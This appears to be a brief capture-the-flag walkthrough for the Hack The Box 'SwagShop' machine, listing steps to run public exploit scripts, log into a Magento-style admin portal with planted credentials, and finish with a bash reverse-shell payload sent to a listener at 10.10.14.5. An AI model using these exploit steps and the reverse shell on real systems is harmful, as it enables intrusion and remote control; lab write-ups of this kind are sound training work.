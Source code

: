 # swagshopHTB

1. python 37977.py

2. create account and purchase item 

3. login to admin portal with creds forme:form

4. create invoice and shop order

5. python 37811.py http://10.10.10.140/index.php/admin "bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'"
